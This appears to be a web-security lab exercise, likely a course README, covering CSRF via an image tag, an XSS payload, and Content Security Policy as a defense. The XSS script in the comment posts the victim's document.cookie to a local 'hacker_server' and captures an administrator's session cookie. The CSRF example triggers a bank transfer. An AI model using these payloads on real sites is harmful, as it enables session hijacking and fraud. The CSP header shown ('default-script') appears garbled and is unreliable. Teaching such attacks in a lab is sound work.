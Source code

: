 ![CSRF](https://i.imgur.com/8euzZ6I.png)

_"As an example, consider that a forum post contains the following content:"_
```
LOL. That was a good one Op. :) <img src='http://vulnerable-bank.com/transfer.jsp?amount=1000 &to_nib=12345300033233'></img> 
```
_"When the browser tries to load the image, it will invoke an action to an external server. In this hypothetical case, it would transfer funds from the victims bank account to the attacker’s bank account. 
Sometimes a more complex interaction is required, and the attack will actually inject Javascript code "_

#### Exercise Setup:
-	1) Navigate to the directory where we dumped our downloaded package
-	2) Run the script **hacker_server.py**
-	3) Do a POST to http://localhost:8000

This script will dump to **stdout** all data that is posted to it (using HyperText Transfer Protocol (HTTP) POST). 

#### Exercise

Following the last exercise, we already know that we can inject < script > tags into a post's page by creating a comment and putting some code into the Description field. So, by including the following code into the comment:
```
<script>
	$.ajax({
	        url: 'http://localhost:8000/cookie',
		type: 'POST',
		data: "username=Administrator;cookie=a"+document.cookie,
	})
</script>
```

And just like that, we can see that on our Hacker_server process we've just received the Administrator's session cookie!

Note: We include that 'a' in the cookie so that, in case there's no cookie, a valid argument is always passed to the hacker_server (causing it not to crash due to a bad input)
 
 ## 2.3 Content Security Policy
_"**Content Policy Rules** are a way of protecting a website from the injection of malicious code. **This doesn’t stop all XSS types**, but it is one of the most important steps. (For a more complete protection, this should be combined with **CORS**, which is described in the next section.) "_

"_The goal is to **deﬁne what content can be present in the HTML, or how it is handled by the browser**. HTML Content Policies make use of headers that specify how the browser should load and execute resources. The most important is **Content-Security-Policy**, which speciﬁes a set of rules for content. (For a complete reference, pleasecheck https://content-security-policy.com/.) _"

"_To see how it works, lets consider an example where we deﬁne that all Javascript should be loaded from the web page server, and no Javascript objects are allowed from external sites, or only from a restricted set. For this purpose, we can set the Content-Security-Policy header to: **default-script 'self' oss.maxcdn.com** With this value,scripts will only be loaded from the local server or oss.maxcdn.com a known Content Delivery Network._"
